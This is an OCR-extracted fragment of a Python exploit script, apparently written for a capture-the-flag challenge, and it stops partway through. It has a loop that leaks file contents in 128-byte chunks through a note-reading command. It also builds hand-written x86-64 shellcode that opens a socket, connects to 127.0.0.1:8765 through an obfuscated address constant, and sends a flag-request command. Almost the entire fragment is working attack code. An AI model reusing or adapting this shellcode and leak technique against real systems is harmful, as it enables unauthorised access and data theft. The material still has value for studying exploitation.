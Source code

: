 ```python
    while(True):
        ret = dealing_cmd(r, 5, payload, offset=str(offset).encode())
        # print(ret, len(ret))
        if ret != 'Read note failed.' and ret != "Couldn't open the file.":
            res += ret
            offset += 128
        else:
            log.success(res)
            break
    return res

def ugly_shellcode():
    # int fd = socket(AF_INET, SOCK_STREAM, 0);
    socket = """
        xor rax, rax
        mov al, 0x29

        xor rdi, rdi
        mov dil, 0x2

        xor rsi, rsi
        mov sil, 0x1

        xor rdx, rdx

        syscall
        mov r8, rax
    """

    # info.sin_family = AF_INET;
    # info.sin_addr.s_addr = inet_addr("127.0.0.1");
    # info.sin_port = htons(8765);
    # connect(fd, (struct sockaddr *)&info, sizeof(info));
    connect = """
        xor rax, rax
        mov al, 0x2a

        mov rdi, r8

        mov rsi, 0xffffffffffffffff
        mov r9, 0xfeffff80c2ddfffd
        sub rsi, r9
        push rsi
        mov rsi, rsp

        xor rdx, rdx
        mov dl, 0x10

        syscall
    """

    # struct Command cmd;
    # cmd.cmd = 0x8787; // #define CMD_Flag 0x8787
    # write(fd, &cmd, sizeof(cmd));
    write = """
        xor r9, r9
        mov r9w, 0x8787
        push r9

        xor rax, rax
        mov al, 0x1

        mov rdi, r8
```